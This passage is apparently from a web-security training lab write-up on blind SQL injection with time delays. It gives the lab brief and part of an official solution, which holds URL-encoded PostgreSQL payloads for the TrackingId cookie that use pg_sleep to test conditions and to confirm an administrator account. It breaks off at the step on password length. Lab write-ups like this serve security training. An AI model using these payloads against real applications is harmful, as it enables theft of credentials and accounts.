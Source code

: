 

#### Blind SQL injection with time delays and information retrieval

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics,  and performs an SQL query containing the value of the submitted cookie. 
>
> The results of the SQL query are not returned, and the  application does not respond any differently based on whether the query  returns any rows or causes an error. However, since the query is  executed synchronously, it is possible to trigger conditional time  delays to infer information. 
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.        
>
> To solve the lab, log in as the `administrator` user.        

<div class="component-solution is-expandable expanded">
            <h4>Official Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the <code>TrackingId</code> cookie.
                    </li>
                    <li>
                        <p>
                            Modify the <code>TrackingId</code> cookie, changing it to:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--</code>
                        <p>
                            Verify that the application takes 10 seconds to respond.
                        </p>
                    </li>
                    <li>
                        <p>
                            Now change it to:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--</code>
                        <p>
                            Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.
                        </p>
                    </li>
                    <li>
                        <p>
                            Now change it to:
                        </p>
                        <code class="code-scrollable">TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--</code>
                        <p>
                            Verify that the condition is true, confirming that there is a user called <code>administrator</code>.
                        </p>
                    </li>
                    <li>
                        <p>
                            The next step is to determine how many characters are in the password of the <code>administrator</code> user. To do this, change the value to:
                        </p>